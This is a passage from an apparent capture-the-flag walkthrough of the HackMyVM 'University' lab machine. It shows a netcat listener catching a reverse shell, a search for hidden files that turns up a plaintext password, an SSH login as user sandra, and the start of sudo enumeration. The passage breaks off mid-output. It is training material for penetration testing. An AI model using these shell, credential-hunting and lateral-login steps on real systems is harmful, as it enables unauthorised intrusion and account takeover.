 
------
## Initial access
Let's check our netcat listener to see if the reverse shell established a connection.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/University]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.13] 60326
bash: cannot set terminal process group (352): Inappropriate ioctl for device
bash: no job control in this shell
www-data@university:~/html/university/studentpic$ 

```
Since we have access to the machine we should start enumerating on this machine.
We can search for hidden files which are not from the user root.
```bash
www-data@university:~/html/university$ find / -type f ! -user root -iname ".*" -ls 2> /dev/null
</ -type f ! -user root -iname ".*" -ls 2> /dev/null
   259612      4 -rw-r--r--   1 sandra   sandra        220 Jan 18  2022 /home/sandra/.bash_logout
   259621      4 -rw-r--r--   1 sandra   sandra        807 Jan 18  2022 /home/sandra/.profile
   259728      4 -rw-------   1 sandra   sandra         56 Jan 18  2022 /home/sandra/.Xauthority
   259630      4 -rw-r--r--   1 sandra   sandra       3526 Jan 18  2022 /home/sandra/.bashrc
   390569      4 -rw-r--r--   1 www-data www-data      378 Jan 18  2022 /var/www/html/university/.gitattributes
   390584      4 -rw-r--r--   1 www-data www-data      649 Jan 18  2022 /var/www/html/university/.gitignore
   269669      4 -rw-r--r--   1 www-data www-data       13 Jan 18  2022 /var/www/html/.sandra_secret

```
It looks we have found a hidden file in `/var/www/html` with the name `.sandra_secret`. Why would there be a hidden file `.sandra_secret` stored with the owner www-data?
This is suspicious, so let's check this file.
```bash
www-data@university:~/html/university$ cat /var/www/html/.sandra_secret
cat /var/www/html/.sandra_secret
Myyogaiseasy
www-data@university:~/html/university$ 

```

## Privilege escalation
With the password found in a hidden file we can logon as `sandra` to SSH.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/University]
└─$ ssh sandra@$ip
sandra@10.0.2.13's password: 
Linux university 5.10.0-10-amd64 #1 SMP Debian 5.10.84-1 (2021-12-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 18 05:34:35 2022 from 192.168.1.51
sandra@university:~$ 

```
Let's check if we can sudo anything as `sandra`.
```bash
sandra@university:~$ sudo -l
Matching Defaults entries for sandra on university:
```